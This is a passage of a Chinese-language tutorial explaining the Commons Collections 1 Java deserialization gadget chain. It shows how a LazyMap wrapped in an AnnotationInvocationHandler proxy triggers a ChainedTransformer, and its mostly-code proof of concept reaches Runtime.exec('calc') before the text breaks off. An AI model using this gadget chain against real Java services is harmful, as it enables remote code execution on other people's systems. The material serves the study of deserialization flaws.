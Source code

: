         // 测试一下lazyMap
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        lazyMap.get("test");
    }

但是如何触发LazyMap的get操作呢？ysoserial中是利用代理触发LazyMap#get，即通过代理对象的handler#invoke来调用LazyMap#get。下面是创建代理对象的关键代码：

    // 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
    Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
    
    // 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
    // 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
    // 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
    Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

获取了代理对象后，就可以将代理对象封装在AnnocationInvocationHanler对象中，作为整个反序列化的入口：

    // 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
    InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
    
    // 最后再把真正的Transformer传入chainedTransformer
    Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
    Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
    iTransformers.setAccessible(true);
    iTransformers.set(chainedTransformer,trueTransformer);

完整的POC如下：

    @Test
    public void test6() throws Throwable {
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer(1)
        };
    
        // 使用ChainedTransformer，防止反序列化之前被执行，此时传入的不是真正的利用链。
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(1)
        });
        HashMap<Object, Object> hashMap = new HashMap<>();
    
        // 获取lazyMap
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
    
        // 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
    